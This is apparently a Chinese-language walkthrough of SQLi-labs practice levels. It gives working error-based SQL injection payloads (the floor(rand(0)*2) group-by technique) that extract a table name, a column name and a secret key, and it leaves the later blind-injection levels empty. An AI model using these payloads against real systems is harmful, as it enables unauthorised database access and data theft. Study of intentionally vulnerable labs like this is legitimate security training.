 id=(('1')),闭合方式

## 步骤

获取表
1%

`27))%20and%20(select%20count(*)%20from%20information_schema.tables%20group%20by%20concat(%27~%27,(select%20table_name%20from%20information_schema.tables%20where%20table_schema=database()%20limit%200,1),%27~%27,floor(rand(0)*2)))%20%23`

`EKP9EVPEDH`

获取列

`1')) and (select count(*) from information_schema.tables group by concat('~',(select column_name from information_schema.columns where table_schema=database()%20 and table_name='EKP9EVPEDH' limit 2,1),'~',floor(rand(0)*2))) %23`

`secret_DI64`

获取key

`1')) and (select count(*) from information_schema.tables group by concat('~',(select secret_DI64 from EKP9EVPEDH ),'~',floor(rand(0)*2))) %23`

`8r5XPen1KywllEINiQfAQnlq`


***
# 后面的做不动啊...不会写脚本
***
# less 62(GET-challenge-Blind- 130 queries allowed -variation 1)
## 原理
一看130次就知道要盲注测试

## 步骤



***
# less 63(GET-challenge-Blind- 130 queries allowed -variation 2)
## 原理




## 步骤

